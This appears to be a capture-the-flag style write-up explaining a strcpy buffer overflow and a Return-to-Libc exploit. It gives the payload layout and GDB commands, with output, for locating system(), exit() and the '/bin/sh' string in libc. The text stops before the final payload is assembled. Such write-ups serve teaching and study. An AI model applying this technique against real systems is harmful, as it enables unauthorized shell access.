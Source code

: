 ### Vulnerability

Buffer Overflow Vulnerability becouse Uses strcpy() which doesn't check buffer bounds and we have Buffer size is 144 bytes (0x90) with No input length checking

**What is Ret2Libc?**

Ret2Libc, short for "Return-to-Libc," is an exploit technique that takes control of a program's flow by calling existing library functions in memory. It's a clever way of executing arbitrary code without injecting it directly into the program.

**How Does It Work?**

A basic Ret2Libc exploit follows this structure:

```
padding + address of system + address of exit + address of "/bin/sh"

```

- **Padding**: Fills the buffer to align with the return address.
- **Address of system**: Points to the `system()` function, which can execute shell commands.
- **Address of exit**: Ensures the program exits cleanly after execution (optional, but skipping it may cause a crash).
- **Address of "/bin/sh"**: Points to the `/bin/sh` string in memory, which starts a shell.

**Crafting a Ret2Libc Exploit**

To build our exploit, we need three key memory addresses and the offset:

1. **`system()`**
    
    Use GDB to find the address of the `system()` function:
    
    ```
    (gdb) info function system
    0xb7e6b060  system
    ```
    
2. **`exit()`**
    
    Locate the `exit()` function in memory:
    
    ```
    (gdb) info function exit
    0xb7e5ebe0  exit
    ```
    
3. **`/bin/sh` string**
    
    Search for the `/bin/sh` string in the memory range of the libc library:
    
    ```
    (gdb) info proc mappings
        [...]
        0xb7e2c000 0xb7fcf000   0x1a3000  0x0 /lib/i386-linux-gnu/libc-2.15.so
        [...]
    (gdb) find 0xb7e2c000, 0xb7fcf000, "/bin/sh"
     0xb7f8cc58
    1 pattern found.
    ```
    